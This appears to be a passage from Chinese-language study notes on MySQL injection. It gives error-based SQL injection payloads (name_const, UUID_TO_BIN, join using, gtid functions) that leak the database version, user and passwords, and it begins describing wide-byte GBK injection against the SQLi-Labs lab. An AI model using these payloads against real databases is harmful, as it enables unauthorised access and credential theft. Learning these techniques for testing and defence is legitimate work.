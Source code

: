 ### name_const()
报错原理：
mysql列名重复会导致报错,通过name_const制造一个列
我们可以利用mysql列名重复会导致报错这个原理，配合笛卡尔积查询得到列名
局限：仅可取数据库版本信息
```sql
select * from users where id = 1 and 
(select * from(select name_const(version(),0x1),name_const(version(),0x1))a);
```
![image.png](./MySQL注入基础.assets/2023_05_19_10_41_17_rFsH3Jqj.png)

### uuid
适用版本：8.0.x
```sql
select * from users where id = 1 and UUID_TO_BIN((SELECT password FROM users WHERE id=1));
SELECT BIN_TO_UUID((SELECT password FROM users WHERE id=1));
```
![image.png](./MySQL注入基础.assets/2023_05_19_10_41_18_j7IfwYqX.png)
![image.png](./MySQL注入基础.assets/2023_05_19_10_41_18_EQisqFBy.png)

### join using
通过系统关键词join可建立两个表之间的内连接。
通过对想要查询列名的表与其自身建立内连接，会由于冗余的原因(相同列名存在)，而发生错误。
并且报错信息会存在重复的列名，可以使用 USING 表达式声明内连接（INNER JOIN）条件来避免报错。
```sql
select * from(select * from users a join (select * from users)b)c;
select * from(select * from users a join (select * from users)b using(username))c;
select * from(select * from users a join (select * from users)b using(username,password))c
```
![image.png](./MySQL注入基础.assets/2023_05_19_10_41_18_tF67Xk8w.png)
### GTID()
原理：参数格式不正确
```sql
select gtid_subset(user(),1);
select gtid_subtract((select * from(select user())a),1);
```
![image.png](./MySQL注入基础.assets/2023_05_19_10_41_19_lryxLH6E.png)
## 宽字节注入
举个例子，以SQLi-Labs Less33为例
使用了GBK编码会认为两个字符为一个汉字，所以可以使用一些字符和转义过后多出来的\组合两个字符，使得数据库不识别字符，对单引号、双引号的转义失败